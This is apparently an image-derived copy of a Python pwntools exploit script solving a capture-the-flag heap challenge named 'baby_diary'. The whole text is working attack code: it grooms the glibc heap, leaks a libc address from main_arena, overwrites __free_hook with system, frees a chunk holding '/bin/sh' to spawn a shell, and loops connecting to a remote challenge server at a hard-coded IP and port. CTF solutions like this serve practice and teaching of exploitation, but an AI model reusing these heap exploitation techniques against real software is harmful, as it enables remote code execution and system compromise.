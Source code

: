 ```python
    [add(0x20) for i in range(7)]
    add(0x2000)                  
    add(0x10)                    
    delete(8)
    add(0x3000)                 
    add(0x20, p64(0)+p64(0x801)+p8(0x48))                
    add(0x20)
    for i in range(7):
        delete(1+i)
    delete(11)
    delete(10)
    [add(0x20) for i in range(7)]
    add(0x20, p8(0x60))
    add(0x1d0+0x801-0x251, p64(2)*10)
    add(0x17)
    delete(12)
    add(0x800)
    add(0x17, p64(0)*2+p32(0)+p8(0)*3)
    add(0x10)
    delete(13)
    add(0x17, p64(0)+p64(8))
    add(0xfb0)
    delete(12)
    add(0x40)
    show(11)
    sh.recvuntil("content: ")
    leak_addr=u64(sh.recv(6).ljust(8, '\x00'))
    success('leak:'+hex(leak_addr))
    main_arena_offset=0x1ebb80
    libc_base=leak_addr-96-main_arena_offset
    libc.address=leak_addr-96-main_arena_offset
    success('libc:'+hex(libc_base))
    add(0x10)
    add(0x10)
    delete(17)
    delete(16)
    delete(13)
    add(0x700)
    add(0x100, p64(0)*7+p64(0x21)+p64(libc.sym['__free_hook']-8))
    add(0x10)
    add(0x17, p64(libc.search("/bin/sh").next())+p64(libc.sym['system']))
    delete(0)
    sh.interactive()
 
if __name__ == "__main__":
    while True:
        #sh=process("./baby_diary")
        sh=remote('8.140.114.72', 1399)
        try:
            pwn()
        except:
            sh.close()
```
